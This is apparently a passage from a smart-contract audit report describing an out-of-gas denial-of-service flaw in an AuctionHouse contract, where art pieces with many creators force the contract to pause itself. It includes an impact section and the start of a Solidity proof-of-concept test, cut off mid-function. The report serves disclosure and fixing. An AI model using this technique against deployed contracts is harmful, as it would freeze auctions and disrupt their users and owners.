 >Although all above mentioned operations could be used in order to cause OOG exception, I will focus only on the third one - as I will show in the PoC section, if `10` creators are specified (which is a reasonable number) and even a small art piece (containing only a short URL and short description), the attack is possible as pushes will consume over `750 000` gas. It shows that the attack can be performed very often - probably in case of majority of auctions that are ready to be started (as many of art pieces will have several creators or slightly longer descriptions).
>
>## Impact
>
>Malicious users will be able to often pause the `AuctionHouse` contract - they don't even need for their art piece to win the voting as the attack will be likely possible even on random art pieces.
>
>Of course, the owner (DAO) will still be able to unpause the contract, but until it does so (the proposal would have to be first created and voted, which takes time), the contract will be paused and impossible to use. The upgrade of `AuctionHouse` contract will be necessary in order to recover.
>
>## Proof of Concept
>
>The test below demonstrates how an attacker can cause `_createAuction` to execute catch clause causing `AuctionHouse` to pause itself when it shouldn't as there is another art piece waiting to be auctioned.
>
>Please put the following test into `AuctionSettling.t.sol` and run it:
>
>```solidity
>    // create an auction with a piece of art with given number of creators and finish it
>    function _createAndFinishAuction() internal
>    {
>        uint nCreators = 10;
>        address[] memory creatorAddresses = new address[](nCreators);
>        uint256[] memory creatorBps = new uint256[](nCreators);
>        uint256 totalBps = 0;
>        address[] memory creators = new address[](nCreators + 1);
>        for (uint i = 0; i < nCreators + 1; i++)
>        {
>            creators[i] = address(uint160(0x1234 + i));
>        }
>
>        for (uint256 i = 0; i < nCreators; i++) {
>            creatorAddresses[i] = address(creators[i]);
>            if (i == nCreators - 1) {
>                creatorBps[i] = 10_000 - totalBps;
>            } else {
>                creatorBps[i] = (10_000) / (nCreators - 1);
>            }
>            totalBps += creatorBps[i];
>        }
>
>        // create the initial art piece
>        uint256 verbId = createArtPieceMultiCreator(
>            "Multi Creator Art",
>            "An art piece with multiple creators", 
>            ICultureIndex.MediaType.IMAGE,
>            "ipfs://multi-creator-art",
>            "",
>            "",
>            creatorAddresses,
>            creatorBps
>        );
>
>        vm.startPrank(auction.owner());
>        auction.unpause();
>        vm.stopPrank();
>